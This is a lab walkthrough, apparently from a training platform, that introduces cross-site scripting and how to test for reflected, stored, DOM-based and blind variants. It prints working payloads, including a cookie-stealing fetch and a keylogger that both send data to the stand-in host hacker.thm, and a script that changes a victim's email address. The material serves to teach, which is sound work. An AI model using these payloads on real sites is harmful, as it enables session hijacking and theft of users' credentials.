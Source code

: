 # Intro to Cross-site Scripting

## Description

Learn how to detect and exploit XSS vulnerabilities, giving us control of other visitor's browsers.
* Category: Walkthrough

## Brief

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

## XSS Payloads

### What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what we wish the JavaScript to actually do and the modification is the changes to the code we need to make it execute as every scenario is different.

Here are some examples of XSS intentions:

#### Proof of Concept

This is the simplest of payloads where all we want to do is demonstrate that we can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example: `<script>alert('XSS');</script>`

#### Session Stealing

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`.

#### Key Logger

The below code acts as a key logger. This means anything we type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`.

#### Business Logic

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Our payload could look like this: `<script>user.changeEmail('attacker@hacker.thm');</script>`.

Now that the email address for the account has changed, the attacker may perform a reset password attack.

## Reflected XSS

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Potential Impact

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### How to test for Reflected XSS

We'll need to test every possible point of entry including:
* Parameters in the URL Query String
* URL File Path
* Sometimes HTTP Headers (although unlikely exploitable in practice)

Once we've found some data which is being reflected in the web application, we'll then need to confirm that we can successfully run our JavaScript payload. Our payload will be dependent on where in the application our code is reflected.

## Stored XSS

As the name infers, the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

### Potential Impact

The malicious JavaScript could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

### How to test for Stored XSS

We'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to including:
* Comments on a blog
* User profile information
* Website Listings

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS.

For example, an age field that is expecting an integer from a dropdown menu, but instead, we manually send the request rather than using the form allowing us to try malicious payloads.

Once we've found some data which is being stored in the web application, we'll then need to confirm that we can successfully run our JavaScript payload. Our payload will be dependent on where in the application our code is reflected.

## DOM Based XSS

### What is the DOM?

**DOM** stands for **Document Object Model** and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source.

### Exploiting the DOM

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

### Potential Impact

Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.

### How to test for DOM Based XSS

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. We'd need to look for parts of the code that access certain variables that an attacker can have control over, such as `window.location.x` parameters.

When we've found those bits of code, we'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`.

## Blind XSS

Blind XSS is similar to a stored XSS in that our payload gets stored on the website for another user to view, but in this instance, we can't see the payload working or be able to test it against ourself first.

### Potential Impact

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

### How to test for Blind XSS

When testing for Blind XSS vulnerabilities, we need to ensure our payload has a call back (usually an HTTP request). This way, we know if and when our code is being executed.